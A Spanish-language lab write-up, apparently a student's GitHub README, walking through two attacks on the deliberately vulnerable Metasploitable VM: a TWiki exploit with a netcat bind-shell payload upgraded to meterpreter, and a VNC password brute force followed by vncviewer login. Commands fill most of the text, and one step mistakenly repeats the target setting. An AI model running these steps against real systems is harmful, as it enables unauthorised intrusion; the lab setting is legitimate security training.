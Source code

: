 # Ejemplo 1
<br>
  Acerca de:
  <br>
    -La máquina virtual Metasploitable es una versión intencionalmente vulnerable de Ubuntu Linux diseñada para probar herramientas de seguridad y demostrar vulnerabilidades comunes.
<br>

  Buscar vulnerabilidades:
  <br>
    -Ataquaremos al puerto 80
    -Para ello tendremos que usar la herramienta nmap con la que tendremos que poner "nmap -O 192.168.1.10" 192.168.1.10 es la ip que tenermos en la maquina a la cual vamos a atacar 
                                                                                                    
                                                                                                  
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/190cde79-3c47-46d6-bf70-7bd082a6fa75)

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Después usaremos la herramienta twiki con el comando “use exploit/unix/webapp/twiki_history” en la que tendremos si podemos atacar al puerto que nos interese identificar con el comando “show options”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/ce0918a2-a729-44a7-ba80-33201418d83c)


Indicaremos cual es nuestro objetivo con el comando “set rhosts 192.168.1.10”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/f9c339eb-9c92-41d4-9fa8-5ce7741075f4)
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3dbcbd54-3ea7-4570-9b2b-55cc43f3f22a)


 

Para continuar tendremos que usar los siguientes comandos “set payload cmd/unix/bind_netcat”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3403d27e-5900-4edf-a465-3b93fb1944e6)


 
Tendremos que crear una sesión con “exploit -j” y veremos si se ha creado con “sessions -l”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/fe13f062-4730-4f5d-9a18-cdc48dc267bb)


Tendremos que usar los siguientes comandos “use post/multi/manage/shell_to_meterpreter”, “set sessions 2” y “exploit”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/6b9ecb6b-f268-4db5-b4f0-6a81a3d6c2a0)


Ya podemos entrar en la maquina objetivo con el comando “sessions -i 3” y haremos un “ifconfig para confirmar si hemos entrado bien”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/71e9be85-3d5b-4099-b7b7-d8681aec1284)

# Ejemplo 2

<br>
-Atacaremos al puerto P 5900 VNC 

-Comprobaresmos si podemos usar el puerto 5900

<img width="385" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/b864e490-0d1a-4b31-a1ed-166a3c72ac08">

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Vemos que opciones tenemos para usar vnc con "search vnc_login" y usamos el 0 con "use 0"

<img width="430" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/72507d21-b71b-4339-9f03-6e95c3d776cd">

-Indicamos el objetivo con "set rhosts 192.168.1.10" y que usuario usaremos con "set rhosts 192.168.1.10"

<img width="265" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/b82cf34d-7359-451f-8a36-57fdb1cfaf0c">

-Lo iniciaremos con "run" y nos dara la contraseña

<img width="307" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/83db20e4-0c63-440e-9655-2c967bc786d2">

-Pondremos en la terminal "vncviewer 192.168.1.10" y ya nos conectara 

<img width="530" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/517e517b-094f-4e63-a408-1e136f5e83ad">

